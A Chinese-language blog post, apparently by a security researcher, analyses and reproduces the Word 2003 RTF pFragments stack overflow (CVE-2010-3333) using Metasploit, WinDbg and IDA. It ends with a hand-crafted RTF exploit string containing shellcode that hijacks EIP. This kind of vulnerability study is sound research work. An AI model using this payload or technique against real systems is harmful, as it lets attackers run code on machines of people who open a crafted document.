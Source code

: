 ```yaml
---
layout:		post
title:		CVE-2010-3333分析 & 复现
author:		wooy0ung
tags:		cve
category:  	exploit
---
```


- 目录
{:toc #markdown-toc}

>[分析环境]  
>系统: Windows XP SP3  
>漏洞软件: Microsoft Office Word 2003 SP3  
>注意: 需要安装英文版, 安装后不是SP3的记得打上SP3的补丁包。  
>摘要: CVE-2010-3333(MS10-087)是Microsoft Office Word在处理RTF文档的绘图pFragments属性时产生的一个栈溢出漏洞。
<!-- more -->


### 0x00 前期准备

安装Microsoft Office 2003 SP3 & 生成msf.rtf

```
msf > use exploit/windows/fileformat/ms10_087_rtf_pfragments_bof
msf > info
msf > set target 6
msf > run
```

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x00.png)

启动Word, WinDbg附加上去, 打开msf.rtf触发异常, 断在了内存copy指令rep movs(0x30ed442c)上

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x01.png)

发现该指令往READONLY内存区域写数据, 触发异常

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x02.png)

定位mso.dll模块的路径

```
# 以上用到的命令
> db esi
> db edi
> !address edi
> lmm mso v
```


### 0x01 栈回溯

重新载入, 在0x30ed442c下断, 定位崩溃函数的调用函数

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x03.png)
![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x04.png)

目标函数地址0x30f0b5c2, 下断, 重新载入, 单步到30F0B5F8 call dword ptr [eax+1Ch]跟进去

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x05.png)

定位到30ED4424 add esi, [eax+10h], 此处赋值esi=1005000c, 指向存放rtf pFragments数据的地址

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x06.png)

再单步到30ED442C rep movsd, ecx=0xc8ac(需要copy的字节数)/4=0x322b

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x07.png)

F5直接运行, 触发异常, 打印待copy的数据

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x08.png)

对比PoC, ecx长度过大, 覆盖到不可写区域崩溃掉

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x09.png)
![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x0a.png)

```
#以上用到的命令
> bp 30ed442c
> kb
> ub mso!Ordinal1273+0x2581
```


### 0x02 静态分析

打开IDA, 载入mso.dll, 定位到30ED4407 mov edi, [esp+4+arg_4]

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x0b.png)

edi指向一个栈地址, 看一下栈布局, 从arg_4开始覆盖

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x0c.png)

定位到sub_30f0b5c2, 再看看调用函数的栈布局

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x0d.png)

返回地址偏移上面arg_4 0x18-0x08+0x04=0x14 byte, 也就是任意填充14byte就到达返回地址


### 0x03 手工构造exp

截取msf.rtf的头部

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x0e.png)

填充14 byte 1111...后,再填充4byte 2222...., 最后填充}}}}将数据封闭上

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x0f.png)

这里14byte、4byte是对栈数据来说, 实际上上WinHex上分别要填充28byte、8byte

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x10.png)

Windbg附加上去, 在30F0B6BA retn 14h断下, 单步一下, 发现eip=22222222, 成功劫持了eip

```
# 0x7ffa4512(万能跳)+0x28byte * '0'+shellcode
{\rtf1{\shp{\sp{\sn pFragments}{\sv 5;3;11111111111111111111111111111111111111111111111111111245fa7f000000000000000000000000000000000000000031d2b230648b128b520c8b521c8b42088b72208b12807e0c3375f289c703783c8b577801c28b7a2001c731ed8b34af01c645813e4661746175f2817e084578697475e98b7a2401c7668b2c6f8b7a1c01c78b7caffc01c76867202001687930756e6820776f6f89e1fe490b31c05150ffd7}}}}
```

然后就是构造rop了, 不再赘述, pwn!

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x11.png)